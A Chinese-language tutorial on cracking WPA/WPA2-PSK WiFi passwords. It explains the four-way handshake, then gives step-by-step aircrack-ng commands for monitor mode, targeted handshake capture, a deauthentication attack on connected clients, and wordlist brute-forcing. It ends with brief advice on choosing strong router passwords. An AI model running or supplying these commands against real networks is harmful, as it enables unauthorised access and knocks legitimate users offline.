 ## WiFi密码破解与防范

此教程为wifi无线密码破解攻略，建议以探讨学术和热爱网络技术为学习目标。 

## 1 WIFI破解原理

本章节主要介绍WIFI认证方式和认证具体过程，还有如何利用WIFI的认证再破解的基本原理。

### 1.1 wifi认证方式

1、不启用安全

2、WE

3、WPA/WPA2-PSK

4、WPA/WPA2 802.1X （radius认证）

一般我们设置主流的都是第三种。

具体在路由器的配置界面一般如下图所示：

![img](http://image.3001.net/images/20150204/14230352482243.png)

### 1.2 WPA-PSK的认证过程：

![img](http://image.3001.net/images/20150204/14230353336924.png)

> 1、无线AP定期发送beacon数据包，使无线终端更新自己的无线网络列表。
>
> 2、无线终端在每个信道（1-13）广播ProbeRequest（非隐藏类型的WiFi含ESSID，隐藏类型的WiFi不含ESSID）
>
> 3、每个信道的AP回应，ProbeResponse，包含ESSID，及RSN信息
>
> 4、无线终端给目标AP发送AUTH包。AUTH认证类型有两种，0为开放式、1为共享式（WPA/WPA2必须是开放式）
>
> 5、AP回应网卡AUTH包
>
> 6、无线终端给AP发送关联请求包associationrequest数据包 7、AP给无线终端发送关联响应包associationresponse数据包
>
> 8、EAPOL四次握手进行认证（握手包是破解的关键）
>
> 9、完成认证可以上网。

### 1.3 WPA-PSK认证四次握手认证的过程

![img](http://image.3001.net/images/20150204/1423035431460.png)

### 1.4 WPA-PSK破解原理

用我们字典中的PSK+ssid先生成PMK（此步最耗时，是目前破解的瓶颈所在），然后结合握手包中的客户端MAC，AP的BSSID，A-NONCE，S-NONCE计算PTK，再加上原始的报文数据算出MIC并与AP发送的MIC比较，如果一致，那么该PSK就是密钥。

如图所示：

![img](http://image.3001.net/images/20150204/142303547147.png)

## 2 WIFI破解过程

### 2.1 破解wifi实战

**（1）. 关闭网络管理器，为了防止干扰**

```
service  network-manager stop
```

```
airmon-ng check kill
```

**（2）. 查看本机电脑的无线网卡**

```
ifconfig
```

或者

```
iwconfig
```

找到是否有wlan0无线网卡的，如果没有无线网卡请插入usb无线网卡。 如果是插入usb网卡请

```
ifconfig wlan0 up
```

加载无线网卡

**（3）. 激活网卡为监听（monitor）模式**

```
airmon-ng start wlan0
```

![img](http://image.3001.net/images/20150204/14230355012283.png)

得到监控模式下的设备名是mon0 有的可能是wlan0mon，请记住这个名字

**（4）. 探测周围无线网络**

```
airodump-ng mon0
```

查看周边路由AP的信息。

个人经验一般信号强度大于-70的可以进行破解，大于-60就最好了，小于-70的不稳定，信号比较弱。（信号强度的绝对值越小表示信号越强）

![img](http://image.3001.net/images/20150204/14230355329489.png!small) ![img](http://image.3001.net/images/20150204/14230355587380.png!small)

![img](http://image.3001.net/images/20150204/14230356574818.png!small)

**（5）. 选择要破解的WiFi，有针对性的进行抓握手包**

```
airodump-ng --ignore-negative-one -w  /tmp/test.cap-c 11 --bssid 40:16:9F:76:E7:DE mon0
```

参数说明：-w 保存数据包的文件名 –c 信道 –bssid ap的mac地址 (注意test.cap会被重命名)，也可以用其他工具抓包比如：wireshark、tcpdump，抓到握手包会有提示。

**（6）. 模拟目标wifi，想可信客户端发起断链攻击**

为了顺利抓到握手包，我们需要使用DEAUTH攻击使已经连接的客户端断开并重新连接，以产生握手包。（注意：抓握手包破解必须有合法的客户端才行。）

攻击命令如下

```
aireplay-ng -0 3 -a B8:A3:86:63:B4:06 -c 00:18:1a:10:da:c9 -x 200 mon0
```

参数说明：-0 Deautenticate 冲突模式 3 发包次数 -x 发包速度

![img](http://images.51cto.com/files/uploadimg/20110526/15005025.jpg)

如果攻击成功,airodump-ng捕获`handshake` ,此时可以ctrl+c终止airodump-ng抓包。

**（7）. 通过字典暴力破解捕获到的加密密码**

```
aircrack-ng-w pass-haoyong.txt test-03.cap
```

参数解释：-w 字典路径

![img](http://image.3001.net/images/20150204/14230358365729.png!small)

如果字典中有对方的密码，那么经过一段时间就会破解成功，最终会出现 **FOUND KEY!**字样.

![img](http://images.51cto.com/files/uploadimg/20110526/15005029.jpg)

**（8）. 破解成功，恢复网络环境**

```
service  network-manager start
```

### 2.2 有关WIFI安全建议

（1） 路由密码不要设置WEP方式加密的，因为WPA2-PSK的加密方式是不可逆的，但是wep确实可逆的，不论你设置的密码多么复杂，都会被秒破。

（2） 加密方式选择WPA2-PSK，密码不要设置常用面比如简单的123456aa这种。一般网上流传的密码字典会包括这种密码，所以很多常用字典可以轻易破解

（3）密码难度稍微复杂一些，长度不要局限8位，即可。

视频：http://pan.baidu.com/s/1hrY0qR6
资料链接：http://pan.baidu.com/s/1cecjZC 密码：rn7i
直播视频链接：
http://v.youku.com/v_show/id_XMTY3OTgyNjY2NA==.html 